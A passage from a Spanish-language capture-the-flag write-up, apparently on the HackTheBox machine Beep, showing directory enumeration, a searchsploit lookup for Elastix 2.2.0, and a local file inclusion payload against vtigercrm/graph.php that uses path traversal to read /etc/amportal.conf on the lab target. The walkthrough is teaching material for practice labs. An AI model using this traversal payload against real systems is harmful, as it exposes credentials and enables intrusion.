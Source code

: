 ```bash
000005506:   301        9 L      28 W       309 Ch      "panel"
```
Al revisar los directorios, podemos identificar diferentes rutas que exponen la información sensible de los servicios encontrados, sin embargo, no se tiene éxito al conseguir una posible credencial del portal inicial, por tal razón buscamos exploits públicos que puedan tener relación con el servicio encontrado.

```bash
searchsploit elastix
```
```bash
#Resultados
Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl
```

Se detecta el siguiente exploit que logra una exposición de información sensible a través del aprovechamiento por `LFI` o local file inclusión, el cual se identifica explorando el exploit encontrado.

```bash
searchsploit -x php/webapps/37637.pl
```
```bash
#Payload de explotación
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

El siguiente paso es ejecutar lo anterior junto con nuestro objetivo en el navegador, de la siguiente manera.

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

<p align="center">
<img src="/assets/images/beep/04-page.png">
</p>

Esta máquina es bastante interesante por las diferentes maneras de llegar a realizar una intrusión en estos ejercicios, a continuación, vamos a ver algunas de estas.
